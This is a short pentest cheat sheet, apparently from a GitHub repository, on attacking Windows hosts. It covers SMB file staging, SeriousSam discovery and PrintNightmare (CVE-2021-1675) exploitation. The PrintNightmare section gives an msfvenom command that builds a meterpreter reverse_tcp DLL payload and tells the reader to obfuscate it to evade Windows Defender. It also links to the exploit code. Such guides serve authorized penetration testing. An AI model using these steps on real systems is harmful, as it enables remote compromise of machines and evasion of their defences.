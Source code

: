 # Pentest Guides 

## Feching files to Windows host

Linux | Windows
-------|--------
`sudo smbserver.py -smb2support -user complexia -password complexia share $(pwd)` | `\\192.168.1.1\share\$(filename)`
`sudo smbserver.py share $(pwd) -smb2support` | `\\192.168.1.1\share\$(filename)`



## Vulnerabilities - Windows

### -> SeriousSam

***Setup Command***

*Running a script on a low privilege user will cause an error, run the command below*

`Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser`


**Discovery methods**

Method | Command
-------|--------
PowerShell | `.\SeriousSam.ps1`

Link to [Github Repository](https://github.com/romarroca/SeriousSam/blob/main/serioussam.ps1)

### -> PrintNightmare

***Setup Command***

Description | Commands&Links
------------|--------
*Download virtualenv* | `sudo apt install virtualenv`
*Create virtual enviroment by sudo privileges with the command*  | `virtualenv --python=python3 yourdirectory`
*Run*  | `source yourdirectory/bin/activate`
*Git clone & Follow Instructions*  | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Install the impacket version described in github repository* | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Create meterpreter payload* | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=0000 -o reverse.dll`
*Meterpreter payload only works when windows defender disabled* | **Obfuscate the payload**

**Discovery methods**

Method | Command
-------|--------
Script | `rpcdump.py @192.168.1.10 \| egrep MS-RPRN\|MS-PAR`


